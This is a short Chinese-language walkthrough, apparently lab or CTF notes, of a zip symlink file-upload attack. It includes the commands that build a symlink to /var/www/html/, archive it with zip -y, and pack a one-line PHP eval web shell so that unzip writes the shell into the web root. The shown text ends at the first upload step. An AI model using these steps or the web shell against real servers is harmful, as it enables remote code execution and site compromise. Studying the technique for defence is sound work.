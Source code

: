 

创建一个名为 `html` 的软连接（符号链接），指向网站根目录 `/var/www/html/`。

```
ln -s /var/www/html/ html
lrwxrwxrwx 1 root root 14 Mar 13 18:39 html -> /var/www/html/
```



将软连接 `html` 打包为 `html.zip`，并保留软连接属性（而非实际文件内容）。当将该文件上传到服务器时，服务器会调用 unzip 解压该压缩包，会**在 /tmp 文件夹下创建一个指向 /var/www/html/ 目录的软连接**（即 **/tmp/html/ -> /var/www/html/**）。

```
zip -y html.zip html 

  adding: html (stored 0%)
```



构造一个**包含恶意文件的目录结构**，利用软连接覆盖目标路径。

```
mkdir html
touch html/shell.php
printf "<?php eval(\$_POST['cmd']); ?>" > html/shell.php
```



将恶意文件目录 `html/` 打包为 `shell.zip`，用于二次上传攻击。当服务器调用 unzip 解压压缩包时，文件 shell.php 会被放置在工作路径（**/tmp/**）中的 html 路径下，即 **/tmp/html/shell.php**。

因为 **/tmp/html/** 是软连接，指向 **/var/www/html/** 文件夹，所以 **shell.php 实际被放置在 /var/www/html/shell.php** 。

```
zip -r shell.zip html/
  adding: html/ (stored 0%)
  adding: html/shell.php (stored 0%)
```



首先上传 **html.zip** 压缩包，在 **/tmp/** 路径创建软连接 **html**，指向 **/var/www/html/**。

![image-20250313185655500](./images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20250313185655500.png)
